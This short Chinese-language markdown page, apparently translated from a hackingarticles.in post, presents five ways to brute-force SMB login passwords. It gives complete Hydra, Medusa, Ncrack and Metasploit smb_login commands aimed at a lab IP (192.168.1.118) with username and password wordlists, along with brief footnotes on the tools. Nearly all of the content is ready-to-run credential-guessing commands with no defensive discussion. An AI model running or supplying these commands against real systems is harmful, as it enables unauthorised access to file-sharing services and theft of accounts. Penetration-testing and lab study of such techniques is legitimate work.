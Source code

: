## 破解SMB登录密码的5种方法

### Hydra [^2]

`hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

### X-Hydra [^1]

- ![3](../src/3.png)
- ![4](../src/4.png)
- ![5](../src/5.png)

### Medusa [^3]

`medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

### Ncrack

`ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

### Metasploit

```bash
use auxiliary/scanner/smb/smb_login
msf exploit (smb_login)>set rhosts 192.168.1.118
msf exploit (smb_login)>set user_file /root/Desktop/user.txt
msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
msf exploit (smb_login)>set stop_on_success true
msf exploit (smb_login)>exploit
```

[原文](https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/)

---

[^1]: 这是通过SMB端口应用字典攻击来破解系统的图形版本
[^2]: 这是一种命令方法，并且工作效率不高。这种方法适用于kali的终端。
[^3]: Medusa是一个快速，并行，模块化的登录暴力破坏者。目标是支持尽可能多的允许远程身份验证的服务
